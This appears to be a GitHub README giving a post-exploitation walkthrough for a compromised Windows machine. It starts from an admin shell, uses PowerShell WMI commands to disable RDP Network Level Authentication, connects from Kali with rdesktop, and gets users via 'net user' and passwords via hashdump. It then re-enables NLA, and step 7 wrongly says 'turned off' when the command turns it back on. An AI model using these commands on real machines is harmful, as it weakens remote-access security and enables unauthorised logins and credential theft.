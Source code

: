 ## Disclosures of Remote Procedure Call
-DO THIS AT YOUR OWN RISK :) 

1. Shell Needed Requires Admin Privilege.
2. Powershell MUST be Used !
3. You will need the password of the Desktop you are connecting to.
 
## Here are the Steps 

1. Once you have Admin Level Shell

2. Run a Sysinfo to see the Name of the Desktop.

      Image is seen below:
      ![alt text]

3. In the Powershell, 
  You need to establish the Variable of the Name of the System.
  Codes :-
    
    `shell`
    `powershell`
    `$ComputerName = " NAME SEEN IN SYSINFO "`
      
4. Once you have done this, You will need to check if you require Network Level Authentication(NLA).
    Use the Following command to check if you do not know:-
    
    `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired`
    
    If "1" is returned, it means NLA is on.
    If "0" is returned, it means NLA is off.
    
5. Since we do not have Network Level Authentication(NLA), We need to turn off the NLA. 
   Using Admin Level Powershell,
   
    `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)`
  
      Image is seen below:
      ![alt text]
  
    Now It will be turned off.
    You can use Number 4 command to check if it worked. 
  
      Image is seen below:
      ![alt text]
  
6. Since now it is off, we can connect using our normal shell in our own machine.
    You can use the command in Kali Linux Shell to connect:-
  
    `rdesktop <IP ADDRESS> -u <Username> -p <Usermame's Password>`
    
    Image is seen below:
    ![alt text]
    
    If you do not know the Username, run the command `net user` in the Powershell
    
    If you do not know the Username's Password, hashdump will be required. 
    
7. Once you have finished with everything, to reactivate the Network Level Authentication(NLA).
    Using the Admin Level Powershell,
    
     `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(1)`

    Now It will be turned off.
    You can use Number 4 command to check if it worked.
  
    Image is seen below:
    ![alt text]

  
